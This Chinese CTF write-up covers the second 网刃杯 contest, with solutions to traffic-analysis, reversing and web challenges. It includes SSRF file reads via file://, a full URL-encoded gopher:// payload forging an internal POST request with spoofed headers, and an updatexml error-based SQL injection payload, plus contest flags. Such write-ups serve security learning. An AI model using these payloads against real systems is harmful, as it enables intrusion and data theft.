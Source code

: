 ```yaml
---
uuid: 10a5dd79-1a78-cb86-0d32-199e13706b49
title: 第二届网刃杯网络安全大赛
date: 2022-04-26 20:31:52
tags: 
       - 赛后复盘
       - CTF
categories: 
       - [赛后复盘]
       - [CTF]
---
```

第二届网刃杯网络安全大赛
<!--more-->
下面前两个是iec和re的签到题目，写出来了，记录一下，后面的是web题目。

# 1.easyiec

下载附件，流量分析，tcp流追踪，得到flag！

# 2.freestyle

看到提示!![](https://img-blog.csdnimg.cn/img_convert/6aa6abc176d9d7a569e028fbda0fb5f7.png)查看反编译![image-20220424132039321](https://img-blog.csdnimg.cn/img_convert/807d610cfa15f2c37f87025afe8c54d5.png)

看一下fun1和fun2，基本算数![image-20220424132126518](https://img-blog.csdnimg.cn/img_convert/18a71906419551238eba64bab2a0f58b.png)

最终得到两个key拼接得到md5(3327104)，得到flag{31a364d51abd0c8304106c16779d83b1}

# 3.signin

File协议读取/etc/hosts得到内网ip

![image-20220426140817667](https://img-blog.csdnimg.cn/img_convert/2d068681880c46d49454f2d20c3a0c7f.png)

ssrf，先构造payload找文件，`?url=file:///proc/net/arp`,![image-20220426141805039](https://img-blog.csdnimg.cn/img_convert/b37e503dc1932fa0292a9cff743ff40e.png)

这样看不太直观，bp抓包看一下！

![image-20220426141940924](https://img-blog.csdnimg.cn/img_convert/c10a2717ef136418919612bb8c08831b.png)

172.73.23.100 ，172.73.23.1这两个ip试一下gopher协议

> ```bash
> gopher://172.73.23.100:80/_%50%4f%53%54%25%32%30%2f%25%33%46%61%25%33%44%31%25%32%30%48%54%54%50%2f%31%2e%31%25%30%44%25%30%41%48%6f%73%74%25%33%41%25%32%30%31%37%32%2e%37%33%2e%32%33%2e%31%30%30%25%33%41%38%30%25%30%44%25%30%41%58%2d%46%6f%72%77%61%72%64%65%64%2d%46%6f%72%25%33%41%25%32%30%31%32%37%2e%30%2e%30%2e%31%25%30%44%25%30%41%58%2d%4f%72%69%67%69%6e%61%74%69%6e%67%2d%49%50%25%33%41%25%32%30%31%32%37%2e%30%2e%30%2e%31%25%30%44%25%30%41%58%2d%52%65%6d%6f%74%65%2d%49%50%25%33%41%25%32%30%31%32%37%2e%30%2e%30%2e%31%25%30%44%25%30%41%58%2d%52%65%6d%6f%74%65%2d%41%64%64%72%25%33%41%25%32%30%31%32%37%2e%30%2e%30%2e%31%25%30%44%25%30%41%52%65%66%65%72%65%72%25%33%41%25%32%30%62%6f%6c%65%61%6e%2e%63%6c%75%62%25%30%44%25%30%41%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%25%33%41%25%32%30%33%25%30%44%25%30%41%43%6f%6e%74%65%6e%74%2d%54%79%70%65%25%33%41%25%32%30%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%25%30%44%25%30%41%25%30%44%25%30%41%62%25%33%44%31%25%30%44%25%30%41%25%30%44%25%30%41
> ```

post传一下得到flag！![image-20220426142722264](https://img-blog.csdnimg.cn/img_convert/ff6c92ce079cd3053a4cdd3f57141ed3.png)

# 4.upload

上传题的sql注入，随便上传抓包，发现正常图片可以上传，![image-20220426144004144](https://img-blog.csdnimg.cn/img_convert/67c2e3dab12a0370c7d319fa7747378d.png)图片🐎也能，但是不能解析，所以没用，这样的话就得换个思路，题目提示是sqlyyds，此时也发现type是可控变量![image-20220426144230637](https://img-blog.csdnimg.cn/img_convert/d799e939cd97348f0dd4f557e7a49a3a.png)

将type改成ctf，然后测试一下filename有没有注入漏洞![image-20220426144343631](https://img-blog.csdnimg.cn/img_convert/1c33cad4b4485e1231a84db5a8ac6b86.png)

加了个`’`，出现报错，是报错注入，常规报错注入，没过滤啥，但是限制长度了，需要分段读flag

![image-20220426145014807](https://img-blog.csdnimg.cn/img_convert/25617058da0483a285631c8da4252bf5.png)

![image-20220426145045283](https://img-blog.csdnimg.cn/img_convert/2057ac941f516bf76cb8a10b6746d9c8.png)

> ' and updatexml(1,concat(0x7e,substr((select flag from flag ),1,30),0x7e),0x7e) and '

flag{5937a0b90b5966939cccd36921c68aa}

# 5.ez_js

![image-20220426145522906](https://img-blog.csdnimg.cn/img_convert/fa567b03cbb6e36eb2b6699359d1871b.png)

![image-20220426145536136](https://img-blog.csdnimg.cn/img_convert/26d4098e8267d259c0a37ebd0211f2ce.png)得！就会这些，我太菜，最后一题不会，睡觉！💤
